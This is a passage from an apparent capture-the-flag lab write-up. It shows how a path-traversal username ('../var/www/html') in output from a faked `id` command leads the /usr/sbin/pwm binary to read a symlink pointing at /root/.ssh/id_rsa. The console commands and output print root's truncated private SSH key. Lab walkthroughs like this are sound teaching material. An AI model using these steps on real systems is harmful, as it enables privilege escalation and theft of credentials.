 As we can see, now our `id` command outputs:  
`uid=33(../var/www/html) gid=33(www-data) groups=33(www-data)`,  
which means that the `/usr/sbin/pwm` binary will extract `../var/www/html` as the username and build the file name as `/home/../var/www/html/.passwords`.

Next, we can create `/home/../var/www/html/.passwords` (`/var/www/html/.passwords`) as a symlink pointing to any file we want to read as `root`. For example, `/root/.ssh/id_rsa` in our case, as follows:

```console
www-data@lookup:/var/www/html$ ln -s /root/.ssh/id_rsa /var/www/html/.passwords
www-data@lookup:/var/www/html$ ls -la /var/www/html/.passwords
lrwxrwxrwx 1 www-data www-data 17 Nov 25 22:53 /var/www/html/.passwords -> /root/.ssh/id_rsa
```

Finally, running `/usr/sbin/pwm`, we can see it works exactly as we anticipated, extracting the username as `../var/www/html` and printing the contents of `/home/../var/www/html/.passwords`, which is a symlink to `/root/.ssh/id_rsa`. This allows us to obtain the private **SSH** key of the `root` user, which we can then use to gain a shell as `root`.

```console
www-data@lookup:/var/www/html$ /usr/sbin/pwm
[!] Running 'id' command to extract the username and user ID (UID)
[!] ID: ../var/www/html
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
...
DgTNYOtefYf4OEpwAAABFyb290QHVidW50dXNlcnZlcg==
-----END OPENSSH PRIVATE KEY-----
```

<style>
.center img {        
  display:block;
  margin-left:auto;
  margin-right:auto;
}
.wrap pre{
    white-space: pre-wrap;
}
</style>